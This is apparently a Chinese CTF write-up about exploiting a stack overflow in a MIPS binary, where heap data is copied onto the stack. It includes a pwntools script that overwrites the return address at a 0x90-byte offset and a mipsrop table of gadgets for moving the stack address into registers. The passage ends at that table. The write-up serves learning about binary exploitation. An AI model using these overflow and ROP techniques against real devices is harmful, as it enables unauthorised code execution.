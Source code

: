 然后发现又会将堆上的内容拷贝到栈上，从而发生栈溢出：

```c
int v4[2]; // [sp+10h] [+10h] BYREF
v12 = v4;
v13 = (int *)((char *)v12 + i * v9);
v14 = v13;
memcpy(v14 + 1, v16 + 1, v17);
```

直接用cyclic()无法劫持返回地址，故手动测试，溢出边界为0x90个字节：

```python
from pwn import *
context(arch='mips',endian='big',log_level='debug')
io = process(["qemu-mips", "-g", "1234", "./pwn"])
io.sendlineafter("number:","1")
payload = '1:'+'a'*0x90+p32(0xdeadbeef)
io.sendlineafter("Job.'",payload)
io.interactive()
```

### 利用

因为这里没有地方泄露栈的地址，所以只能使用ROP来构造类似`jmp esp`的指令，激活mipsrop插件后可以在output窗口中看到：

```python
MIPS ROP Finder activated, found 842 controllable jumps between 0x00400000 and 0x004740A0
```

#### 控制栈地址到寄存器中

首先使用`mipsrop.stackfinder()`来寻找将栈地址放到其他寄存器的gadget：


|  Address     |  Action             |  Control Jump            |
| --------     |  ------------------ | ------------------------ | 
|  0x004273C4  |  addiu $a2,$sp,0x64 |  jalr  $s0               |
|  0x0042BCD0  |  addiu $a2,$sp,0x7C |  jalr  $s2               |
|  0x0042FA00  |  addiu $v1,$sp,0x34 |  jalr  $s1               |
|  0x004491F8  |  addiu $a2,$sp,0x38 |  jalr  $s1               |
|  0x0044931C  |  addiu $v0,$sp,0x28 |  jalr  $s1               |
|  0x00449444  |  addiu $a2,$sp,0x38 |  jalr  $s1               |
|  0x0044AD58  |  addiu $a1,$sp,0x38 |  jalr  $s4               |
|  0x0044AEFC  |  addiu $a1,$sp,0x3C |  jalr  $s5               |
|  0x0044B154  |  addiu $a1,$sp,0x34 |  jalr  $s2               |
|  0x0044B1EC  |  addiu $v0,$sp,0x2C |  jalr  $s2               |
|  0x0044B3EC  |  addiu $v0,$sp,0x40 |  jalr  $s0               |
|  0x00454E94  |  addiu $s7,$sp,0x20 |  jalr  $s3               |
|  0x00465BEC  |  addiu $a1,$sp,0x2C |  jalr  $s0               |
